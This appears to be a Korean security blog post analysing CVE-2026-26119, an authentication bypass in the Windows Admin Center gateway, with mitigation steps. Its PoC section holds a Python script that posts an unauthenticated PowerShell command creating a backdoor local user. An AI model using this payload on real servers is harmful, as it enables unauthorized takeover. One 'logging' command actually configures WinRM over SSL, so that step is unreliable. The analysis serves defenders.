

## 서론

새벽 3시, SOC(Security Operation Center) 모니터링 화면에 붉은색 경보灯이 깜빡입니다. 내부 네트워크의 핵심 서버에서 의심스러운 PowerShell 프로세스가 대량으로 실행되고 있고, 관리자 권한으로 시스템 설정이 변경되고 있습니다. 하지만 로인(Logon) 기록을 살펴보면 정상적인 관리자의 계정 로그인은 없습니다. 공격자는 ID나 패스워드를 훔치지 않았습니다. 그들은 관리자가 서버를 편리하게 관리하기 위해 설치해 둔 'Windows Admin Center(WAC)'의 허점을 그대로 이용했습니다.

이번에 Microsoft가 공개한 **CVE-2026-26119**는 단순한 패치 사항을 넘어선 경종입니다. WAC는 현대의 Windows 서버 인프라에서 없어서는 안 될 관리 도구입니다. 브라우저 기반의 직관적인 UI는 많은 관리자의 사랑을 받아왔지만, 그 편리함 이면에는 공격자에게 '꿀과 같은' 관리자 인터페이스를 제공하는 위험이 도사리고 있습니다. 이 취약점은 인증 과정에서의 결함을 통해, 아무런 자격 증명 없이도 원격 시스템을 완전히 장악할 수 있는 치명적인 경로를 제공합니다. 왜 우리는 이 취약점을 단순한 '업데이트'로 치부하면 안 되는지, 그 기술적 원리와 실전적인 대응 전략을 심도 있게 분석해 보겠습니다.

## 본론

### 기술적 배경 및 원리 분석

CVE-2026-26119는 Windows Admin Center의 게이트웨이(Gateway) 컴포넌트 내부의 인증 검증 로직에서 발생합니다. WAC는 기본적으로 게이트웨이 서비스를 통해 관리 대상 노드와 통신하며, 이 과정에서 JWT(JSON Web Token)나 Windows Authentication을 사용합니다.

해당 취약점의 핵심은 **'인증 우회(Authentication Bypass)'**입니다. 공격자는 특수하게 조작된 HTTP 요청을 WAC 게이트웨이에 전송할 때, 인증 토큰 검증 루틴을 거치지 않고 특정 API 엔드포인트에 직접 접근할 수 있는 논리적 결함을 이용합니다. 이를 통해 공격자는 마치 정상적인 인증을 거친 관리자인 것처럼 WAC의 기능을 호출할 수 있게 됩니다. 특히 WAC는 기본적으로 관리자 권한을 가진 PowerShell 세션을 생성할 수 있는 기능을 제공하므로, 이 인증 우회는 곧 **원격 코드 실행(RCE)**으로 이어집니다.

### 공격 시나리오 가시화 (Visualizing Attack Flow)

공격자가 익스플로잇을 시도하여 시스템을 장악하기까지의 네트워크 흐름은 다음과 같습니다. 이 다이어그램은 방화벽 내부에 위치한 WAC가 어떻게 외부 공격에 노출될 수 있는지를 보여줍니다.



위 다이어그램에서 볼 수 있듯이, 공격자는 `Network_Perimeter` 내부의 게이트웨이 인증 로직(`D`)을 교묘히 우회하여 `Internal_Assets`인 `G`(관리 대상 서버)에 명령을 내릴 수 있습니다.

### 취약점 분석 및 PoC (개념 증명)

> **⚠️ 윤리적 경고**: 아래 코드는 학습 및 방어 목적을 위한 개념 증명(PoC)입니다. 무단으로 타인의 시스템에 실행하는 것은 불법입니다.

공격자는 주로 WAC에서 관리 작업을 수행하는 API 엔드포인트를 타겟팅합니다. 예를 들어, 특정 노드에 대한 PowerShell 스크립트를 실행하는 API는 보통 인증 헤더가 필요하지만, 취약점이 존재하는 경우 이를 생략하거나 조작된 토큰으로 통과할 수 있습니다.

다음은 Python을 사용하여 취약점을 탐지하고 악용 가능성을 시뮬레이션하는 예제 코드입니다.

```python
import requests
import sys

# Target Configuration
target_host = "https://vulnerable-wac-server.example.com"
# CVE-2026-26119: Known vulnerable endpoint path simulation
vulnerable_endpoint = "/api/nodes/Management/powershell"

def exploit_attempt():
    headers = {
        "User-Agent": "Mozilla/5.0 (Security Research)",
        "Content-Type": "application/json"
    }
    
    # Payload: Creating a simple backdoor user (Simulation)
    # 실제 환경에서는 더욱 정교한 PowerShell 스크립트가 사용될 수 있음
    payload = {
        "command": "New-LocalUser -Name 'hacker' -Password (ConvertTo-SecureString 'P@ssw0rd!' -AsPlainText -Force) -Description 'Exploit User'"
    }

    try:
        print(f"[*] Attempting to connect to {target_host}...")
        # SSL verify 경고 무시 (테스트 환경 가정)
        response = requests.post(
            target_host + vulnerable_endpoint, 
            json=payload, 
            headers=headers, 
            verify=False,
            timeout=10
        )

        if response.status_code == 200:
            print("[+] Vulnerability Confirmed! Command execution appears successful.")
            print(f"[+] Server Response: {response.text[:100]}...")
        elif response.status_code == 401:
            print("[-] Authentication required. Vulnerability might be patched or bypass failed.")
        else:
            print(f"[-] Unexpected status code: {response.status_code}")

    except requests.exceptions.RequestException as e:
        print(f"[!] Connection error: {e}")

if __name__ == "__main__":
    exploit_attempt()
```

이 코드가 성공한다면 공격자는 인증 없이 서버 내에 새로운 관리자 계정을 생성하거나, 악성코드를 다운로드받아 실행하는 등의 행위를 할 수 있습니다.

### 배포 모델별 위험도 비교

WAC를 어떤 방식으로 배포했느냐에 따라 이 취약점의 위험도는 달라집니다. 아래 표는 각 배포 모델에서 CVE-2026-26119가 미칠 수 있는 영향을 비교한 것입니다.

| 배포 모델 | 노출 범위 | 위험도 (Risk) | 공격 시나리오 |
| :--- | :--- | :--- | :--- |
| **Windows 10/11 상주** | 로컬 호스트 전용 | 낮음 (Low) | 공격자가 이미 사용자 컴퓨터에 침투한 경우에만 가능 |
| **Azure 내 Gateway** | 인터넷 노출 (Azure AD 인증) | 중간 (Medium) | 클라우드 인증 설정 오류 시 원격 제공 가능 |
| **On-Premises Gateway (IIS)** | 인트라넷 또는 인터넷 노출 | **매우 높음 (Critical)** | 방화벽이 뚫린 경우 인트라넷 전체 장악 가능 |

대부분의 심각한 피해는 **On-Premises Gateway** 모델에서 발생합니다. 관리자의 편의를 위해 443 포트를 인터넷에 그대로 노출한 경우, 공격자는 내부 네트워크에 진입할 필요 없이 외부에서 직접 WAC를 타겟팅할 수 있습니다.

### 완화 조치 및 대응 가이드 (Step-by-Step)

이 취약점에 대응하기 위해서는 단순한 패치 이상의 레이어드 방어(Layered Defense)가 필요합니다.

1.  **긴급 패치 적용 (Immediate Patching)**     Microsoft가 배포한 보안 업데이트를 즉시 적용해야 합니다. WAC는 주로 Microsoft Store 혹은 MSI 설치 파일로 업데이트됩니다. WSUS 등을 통해 관리되는 경우 반드시 최신 버전임을 확인하세요.

2.  **네트워크 노출 최소화 (Network Segmentation)**     WAC는 관리용 도구지, 웹 서비스가 아닙니다. 인터넷에 직접 노출하는 것은 가급적 피해야 합니다.     *   **VPN/Jump Server 필수 사용**: WAC 포트(기본 443)를 인터넷에 오픈하지 말고, VPN 내부에서만 접근 가능하도록 설정하거나, 베스천 호스트(Bastion Host) 등을 경유하여 접근하게 하십시오.

3.  **인증 강화 및 로깅 (Authentication & Logging)**     기본 인증 외에도 추가적인 보안 계층을 적용합니다.

    ```powershell     # WAC PowerShell 로깅 강화 예시 (관리자 권한 필요)     # Set-WSManQuickConfig를 통해 원격 관리 로깅 설정 확인 및 활성화     Set-WSManQuickConfig -UseSSL     ```

    모든 관리자 활동에 대한 감사 로그(Audit Log)를 SIEM(Security Information and Event Management)으로 전송하여, 비정상적인 시간대의 PowerShell 실행이나 새로운 사용자 생성 시도를 실시간으로 탐지해야 합니다.

4.  **최소 권한 원칙 (Principle of Least Privilege)**     WAC 서비스가 실행되는 서비스 계정이나, WAC가 관리하는 대상 서버의 계정이 Domain Admin 등 과도한 권한을 가지고 있는지 점검하세요. 필요한 범위 내에서만 권한을 위임(Delegation)하는 것이 피해 확산을 방지하는 열쇠입니다.

## 결론

CVE-2026-26119는 관리자의 편의성과 보안 사이의 줄다리기에서 발생한 전형적인 취약점입니다. Microsoft의 신속한 패치 릴리스는 중요하지만, 그보다 중요한 것은 우리의 인프라 설계 철학입니다. "관리 툴이니까 내부 네트워크에서만 안전하겠지"라는 안일한 생각이 공격자에게는 가장 넓은 문을 열어주는 열쇠가 됩니다.

이번 사건을 통해 우리는 **관리 인터페이스(Management Plane)** 자체를 공격의 표적으로 인식하고, 이를 보호하기 위한 네트워크 세분화 및 다중 인증(MFA)의 도입이 선택이 아닌 필수임을 재확인했습니다. 취약점은 계속해서 발생할 것이며, 중요한 것은 취약점이 발생했을 때 공격의 사슬을 끊어낼 수 있는 방어 체계가 갖춰져 있느냐 하는 것입니다. 지금 당장 WAC의 버전을 확인하고, 접근 제어 정책을 재점검하시기 바랍니다.

### 참고자료 (References)

- [Microsoft Security Response Center (MSRC)](https://msrc.microsoft.com/)

- [Windows Admin Center Security Best Practices](https://learn.microsoft.com/en-us/windows-server/manage/windows-admin-center/secure/)

- [CVE-2026-26119 - NVD (National Vulnerability Database)](https://nvd.nist.gov/)
